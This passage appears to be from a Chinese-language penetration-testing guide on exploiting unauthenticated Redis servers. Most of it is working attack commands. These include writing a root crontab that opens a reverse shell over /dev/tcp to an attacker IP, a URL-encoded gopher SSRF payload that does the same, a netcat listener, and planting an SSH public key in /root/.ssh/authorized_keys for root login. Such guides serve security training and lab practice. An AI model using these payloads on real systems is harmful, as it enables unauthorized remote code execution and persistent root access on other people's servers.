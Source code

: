    或

    ```
    bash f8x-dev -redis3
    ```

- 利用
    ```bash
    redis-cli -h <目标IP>
    > info   # 查看 redis 版本信息、一些具体信息、服务器版本信息等等:
    > CONFIG GET dir # 获取默认的 redis 目录
    > CONFIG GET dbfilename # 获取默认的 rdb 文件名
    ```

    **利用计划任务执行命令反弹 shell**

    在 redis 以 root 权限运行时可以写 crontab 来执行命令反弹 shell 先在自己的服务器上监听一个端口 `nc -lvnp 4444` 然后执行命令:
    ```bash
    config set dir /var/spool/cron
    config set dbfilename root
    set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.1.1/4444 0>&1\n\n"
    save
    ```

    gopher payload
    ```
    curl -v "gopher://127.0.0.1:6379/_*1%0d%0a\$8%0d%0aflushall%0d%0a*3%0d%0a\$3%0d%0aset%0d%0a\$1%0d%0a1%0d%0a\$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >&/dev/tcp/192.168.1.1/8888>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a\$6%0d%0aconfig%0d%0a\$3%0d%0aset%0d%0a\$3%0d%0adir%0d%0a\$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a\$6%0d%0aconfig%0d%0a\$3%0d%0aset%0d%0a\$10%0d%0adbfilename%0d%0a\$4%0d%0aroot%0d%0a*1%0d%0a\$4%0d%0asave%0d%0aquit%0d%0a"
    ```

    **写 ssh-keygen 公钥然后使用私钥登录**

    在以下条件下,可以利用此方法
    1. Redis 服务使用 ROOT 账号启动
    2. 服务器开放了 SSH 服务,而且允许使用密钥登录,即可远程写入一个公钥,直接登录远程服务器.

    首先在本地生成一对密钥
    ```bash
    ssh-keygen -t rsa
    ```

    然后执行命令:
    ```bash
    # 将公钥的内容写到一个文本中命令如下
    (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt

    # 将里面的内容写入远程的 Redis 服务器上并且设置其 Key 为 test命令如下
    cat test.txt | redis -cli -h <hostname> -x set test
    redis-cli -h <hostname>
    keys *
    get test
    config set dir "/root/.ssh"
    config set dbfilename "authorized_keys"
    save
    ```
    保存后可以直接利用公钥登录 ssh
